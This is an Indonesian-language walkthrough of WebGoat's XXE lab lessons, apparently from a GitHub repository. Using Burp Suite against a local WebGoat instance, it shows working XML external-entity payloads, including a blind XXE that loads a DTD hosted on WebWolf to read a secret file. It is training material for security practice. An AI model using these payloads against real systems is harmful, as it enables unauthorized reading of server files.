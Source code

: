 # XXE
XXE adalah jenis serangan terhadap aplikasi yang mem-parsing input XML. Serangan ini terjadi ketika input XML yang berisi referensi ke entitas eksternal diproses oleh parser XML yang terkonfigurasi dengan lemah.

## Let’s try
- Jalankan tool Burp Suite terlebih dahulu
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/XXE.lesson/3 lalu tekan tombol **Submit**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%201.JPG)

- Buka Burp Suite dan cari request yang mengarah ke path URL **/WebGoat/xxe/simple**. Klik kanan di request tersebut lalu pilih **Send to Repeater**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%202.JPG)

- Pindah ke tab Repeater

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%203.JPG)

- Ganti XML yang terdapat di request menjadi sebagai berikut 
```sh
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%204.JPG)

- Jika sudah tekan tombol **Send** maka kita berhasil menyelesaikan tugas ini

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%205.JPG)

## Modern REST framework
- Jalankan tool Burp Suite terlebih dahulu
- Pergi ke halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/XXE.lesson/6 tulis komentar anda lalu tekan tombol **Submit**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%206.JPG)

- Buka Burp Suite dan cari request yang mengarah ke path URL **/WebGoat/xxe/content-type**. Klik kanan di request tersebut lalu pilih **Send to Repeater**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%207.JPG)

- Pindah ke tab Repeater

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%208.JPG)

- Ganti Content-Type di request dari **application/json** menjadi **application/xml**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%209.JPG)

- Ganti isi komentar dari format json menjadi XML dengan data sebagai berikut
```sh
<?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment><text>&xxe;</text></comment>
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2010.JPG)

- Jika sudah tekan tombol **Send** maka kita berhasil menyelesaikan tugas ini

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2011.JPG)

## Blind XXE assignment
- Buka halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/XXE.lesson/10 disini sudah tertulis file mana yang harus diserang tanpa perlu memindai direktori terlebih dahulu

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2012.JPG)

- Buat sebuah file DTD yang berisi kode berikut ini lalu simpan dengan nama **xxe.dtd**
```sh
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY secret SYSTEM 'file:///home/kali/.webgoat-2023.4//XXE/testing/secret.txt'>
```
- Login ke web wolf di tab baru melalui url http://127.0.0.1:9090/login dan login menggunakan akun yang anda gunakan di webgoat

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2013.JPG)

- Pergi ke menu Files

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2014.JPG)

- Unggah file **xxe.dtd**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2015.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2016.JPG)

- Jika sudah berhasil terunggah klik kanan pada link lalu pilih Copy Link dan paste link di sebuah editor. Disini link file **xxe.dtd** yang kita peroleh adalah http://127.0.0.1:9090/files/testing/xxe.dtd

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2017.JPG)

- Jalankan tool Burp Suite dan pastikan Intercept dalam kondisi On

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2018.JPG)

- Pindah ke tab halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/XXE.lesson/10 kemudian tulis sebuah komentar dan tekan tombol **Submit**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2019.JPG)

- Setelah Burp Suite terbuka pastikan request mengarah ke path URL **/WebGoat/xxe/blind**. Jika belum anda dapat menekan tombol Forward beberapa kali hingga menemukan request tersebut

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2020.JPG)

- Ganti komentar dengan kode XML sebagai berikut, cantumkan link file **xxe.dtd** kemudian tekan tombol **Forward**
```sh
<?xml version="1.0"?>
<!DOCTYPE lesson11 [
<!ENTITY % lesson11dtd SYSTEM "http://127.0.0.1:9090/files/testing/xxe.dtd">
%lesson11dtd;
]>
<comment>
<text>command &secret;</text>
</comment>
```

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2021.JPG)

- Kembali ke halaman http://127.0.0.1:9001/WebGoat/start.mvc#lesson/XXE.lesson/10 jika anda melakukan instruksi diatas dengan benar, maka akan muncul komentar seperti ini

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2022.JPG)

- Buka Burp Suite dan matikan intercept

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2023.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2024.JPG)

- Copy isi komentar diatas lalu paste di field komentar dan tekan tombol **Submit**

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2025.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/webgoat/blob/main/assets/XXE/xxe%2026.JPG)